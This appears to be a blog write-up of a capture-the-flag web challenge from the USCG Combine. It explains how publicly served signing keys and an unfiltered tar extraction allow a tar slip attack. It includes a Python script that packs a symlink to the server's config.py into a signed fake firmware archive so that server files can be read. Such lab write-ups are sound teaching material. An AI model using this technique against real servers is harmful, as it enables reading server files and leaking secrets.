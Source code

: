 +++
title = "USCG Season IV Combine Web Week 1"
date = 2024-07-09

[taxonomies]
tags = ["write-up", "ctf", "uscg", "web exploitation"]
+++

Apart of the USCG Combine this season are weekly web exploitation challenges. This is a writeup for the first week.
<!-- more -->
---
# Week 1
{{ figure(src="/img/uscg24-web-week1/homepage.png", caption="Homepage for week 1's web challenge.") }}
## Challenge Description
For week 1 we are actually given a bit of a background:
> *The USCG factory has been hit by ransomware and we've lost access to a critical piece of machinery! There is a master reset code hidden in the configuration files which we could use to reset it back to the factory image but we can't seem to access it. We have access to a firmware update page but can't seem to be able to overwrite the existing firmware with something to give us back control. Please help!*

This is a relatively smaller web app, so there is not much to actually go over.

## Initial Analysis
I initially thought this was another crypto web challenge (there have been a lot of those recently it seems), so I spent some time trying to see if there is a flaw in the logic. However, it turns out that there is a simple solve, that involves no crypto exploitation.

The other thing of interest is that while the flag is defined in `config.py`, it is actually never referenced or used anywhere. This means that we will probably need to find some sort of arbitrary file read (like lfi), or RCE on the web app.

## Solution
This challenge involves exploiting a tar slip vulnerability to read arbitrary files on the server.

### Code Analysis
There are two main flaws with the application:
1. assets are made public, which includes uploaded firmware and keys (both public and private)
2. use of `TarFile.extractall` without a filter in `util.py`

The first flaw is made apparent in `main.py` with the line:
```py
app = Flask(__name__,static_url_path="/assets",static_folder="/app/assets")
```
In Flask, this will actually make anything in `/app/assets` publically accessible, assuming you know the path to it! so the private key can be accessed at the url `/assets/keys/private.pem`.

The second flaw is found in `util.py` with the line:
```py
TF.extractall(filepath)
```
which when checking the Python docs for `TarFile.extractall` ([found here](https://docs.python.org/3/library/tarfile.html#tarfile.TarFile.extractall)), it notes that untrusted archives should not be extracted unless inspected. This is due to something known as a zip slip/tar slip vulnerability, which allows for the inclusion of arbitrary files using symlinks.

Tar slip works since for tar files, we can actually include a symlink. So we could put a symlink `config.py` that links to `/app/application/config.py`, and include this in the tar file. This way, when the file is extracted by the server, it will actually stay a symlink on the server, so if someone access `/app/assets/firmware_updates/< random hex >/config.py`, it will actually access `/app/application/config.py`, since its a symlink!

The same vulnerability that allows us to access the private key, can be used to access the symlink since it is also in the public assets folder.

### Putting it into Action
In order to sign our malicious firmware, we will need the private key, which as mentioned before we can directly download at `/assets/keys/private.pem`. We can replicate the way the firmware is signed if we wish, but I have made a simple python script that will make the malicious firmware and sign it, shown below:

```py
import base64
import json
import tarfile
import io
from Crypto.PublicKey import RSA
from Crypto.Signature import pkcs1_15
from Crypto.Hash import SHA256

def create_firmware_package(private_key_path):
    # Create a tar file in memory
    tar_buffer = io.BytesIO()
    with tarfile.open(fileobj=tar_buffer, mode='w:gz') as tar:
        # Create a symlink "config.py" to "/app/application/config.py"
        link_info = tarfile.TarInfo("config.py")
        link_info.type = tarfile.SYMTYPE
        link_info.linkname = "/app/application/config.py"
        tar.addfile(link_info)

    # Encode the tar file content
    firmware = base64.b64encode(tar_buffer.getvalue()).decode()

    # Sign the firmware
    with open(private_key_path, 'r') as key_file:
        private_key = RSA.import_key(key_file.read())
    
    hash_obj = SHA256.new(firmware.encode())
    signature = pkcs1_15.new(private_key).sign(hash_obj)
    signature_b64 = base64.b64encode(signature).decode()

    # Create the package
    pkg = {
        "firmware": firmware,
        "signature": signature_b64
    }

    return json.dumps(pkg)

if __name__ == "__main__":
    private_key_path = "./private.pem"  # private key leaked from server

    pkg = create_firmware_package(private_key_path)

    with open("firmware.pkg", "w") as f:
        f.write(pkg)

    print("Firmware package created and saved as firmware.pkg")
```

After creating the malicious firmware, you can now upload it, keeping note of the path it extracted to.
{{ figure(src="/img/uscg24-web-week1/firmware-path.png", caption="The files in the tar (i.e. the symlink) are extracted to '/assets/firmware_updates/< ... >', which is again, public.") }}

We can now simply go to `/assets/firmware_updates/< ... >/config.py` and download it! Since it's a symlink, it will download the linked file instead, which is the servers config.py
{{ figure(src="/img/uscg24-web-week1/leaked-config.png", caption="Leaking the file was successful! Cropped flag since the challenge is still active as of writing.") }}

## Final Thoughts
This was a nice challenge, that almost scared me with crypto, but thankfully was just all web. I had previously exploited a zip slip vulnerability for Hack The Box, so this was familiar to me, but I hadn't done it with a TAR file.